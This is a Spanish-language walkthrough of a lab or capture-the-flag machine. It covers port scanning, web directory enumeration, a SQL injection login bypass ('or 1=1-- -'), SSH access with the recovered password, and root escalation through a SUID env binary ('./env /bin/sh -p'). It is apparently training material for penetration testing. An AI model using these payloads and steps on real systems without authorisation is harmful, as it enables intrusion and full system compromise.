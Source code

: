 ### Reconocimiento inicial

Se realizó un escaneo de la dirección IP **172.17.0.2** utilizando **Nmap** para identificar servicios y puertos abiertos. 
##### Escaneo de Puertos abiertos: 

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:09 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```
##### Versiones de servicios:

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p22,80 -sCV 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:15 -03
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```


**Resultados:**
- **22/tcp** - SSH (OpenSSH 8.9p1 Ubuntu 3ubuntu0.6)    
- **80/tcp** - HTTP (Apache/2.4.52 Ubuntu)


### Reconocimiento sobre puerto 80 Web

Se utilizó **WhatWeb** y **Nmap** / **Gobuster** para obtener más información sobre el servidor web y posibles rutas ocultas.

##### Whatweb
``` python
┌──(kali㉿kali)-[~]
└─$ whatweb 172.17.0.2

http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

**Resultados:**
- Servidor **Apache/2.4.52 (Ubuntu)**    
- Campo de contraseña identificado en la página de inicio de sesión

#### Enumeración de Directorios 

###### Nmap:
``` python
┌──(kali㉿kali)-[~]
└─$ nmap --script http-enum -p80 172.17.0.2
```

**Resultados:**
Sin resultados exitosos.

###### Gobuster:
``` python
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,py,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

**Resultados:**
- **/index.php** (200 OK)    
- **/config.php** (200 OK)
- **/server-status** (403 Forbidden)


### Prueba de Inyección SQL (SQLi)

Ingresamos a http://172.17.0.2/index.php donde nos encontramos con el panel de login y realizamos una prueba para saber si es vulnerable a inyección SQL agregando una " ' ".

![[Pasted image 20250401020938.png]]
Tras recibir un error y confirmar que es vulnerable se procede a realizar pruebas básicas de SQLi

En el campo de usuario se ingreso ' or 1=1-- - y en contraseña cualquier cosa, se le dió submit y la inyección fue exitosa.

![[Pasted image 20250401024658.png]]
**Resultados:**
- Se identificó un usuario válido **Dylan**.
- Se obtuvo una **contraseña** tras una inyección SQL exitosa.  

![[Pasted image 20250401024728.png]]



Se probó la autenticación por SSH utilizando las credenciales obtenidas, logrando acceso al sistema.

![[Screenshot from 2025-04-01 02-49-17.png]]

Una vez dentro del sistema, se realizó un reconocimiento de permisos y binarios con **SUID**.

![[Screenshot from 2025-04-01 02-50-54.png]]

Se detectó que **/usr/bin/env** tenía permisos SUID, lo que permitía su explotación para escalar privilegios. 

Se utilizó el método documentado en **GTFOBins** (https://gtfobins.github.io/gtfobins/env/) para elevar privilegios a **root**:

 `./env /bin/sh -p`

Tras la ejecución, se obtuvo acceso como usuario root, logrando el compromiso total del sistema.

![[Pasted image 20250401025821.png]]

**Estado del sistema: Comprometido**